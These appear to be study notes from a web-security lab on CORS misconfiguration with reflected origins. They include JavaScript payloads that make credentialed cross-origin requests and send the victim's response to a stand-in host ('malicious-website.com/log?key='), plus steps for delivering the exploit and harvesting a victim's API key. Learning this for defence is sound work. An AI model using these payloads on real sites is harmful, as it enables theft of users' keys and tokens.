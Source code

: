 Because the application reflects arbitrary origins in the `Access-Control-Allow-Origin` header:
this means that -->  ANY domain can access resources from the vulnerable domain.
If the response contains any sensitive information such as an API key or CSRF token:
=>
you could retrieve this by placing the following script on your website:

```javascript
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true; 
req.send(); 
function reqListener() { 
	location='//malicious-website.com/log?key='+this.responseText; 
};
```

#### CORS vulnerability with basic origin reflection
1. Check intercept is off, then use the browser to log in and access your account page.
2. Review the history and observe that your key is retrieved via an AJAX request to `/accountDetails`, and the response contains the `Access-Control-Allow-Credentials` header suggesting that it may support CORS.
3. Send the request to Burp Repeater, and resubmit it with the added header:
   `Origin: https://example.com`
4. Observe that the origin is reflected in the `Access-Control-Allow-Origin` header.
5. In the browser, go to the exploit server and enter the following HTML, replacing `YOUR-LAB-ID` with your unique lab URL:
   
```javascript
  <script> 
	  var req = new XMLHttpRequest(); 
	  req.onload = reqListener; 
	  req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
	   req.withCredentials = true; 
	   req.send(); 
	   function reqListener() { 
		   location='/log?key='+this.responseText; 
	  }; 
</script>
```

6. Click **View exploit**. Observe that the exploit works - you have landed on the log page and your API key is in the URL.
7. Go back to the exploit server and click **Deliver exploit to victim**.
8. Click **Access log**, retrieve and submit the victim's API key to complete the lab


### Whitelisted null origin value
The specification for the Origin header supports the value `null`. 
Browsers might send the value `null` in the Origin header in various unusual situations:
- Cross-origin redirects.
- Requests from serialized data.
- Request using the `file:` protocol.
- Sandboxed cross-origin requests.
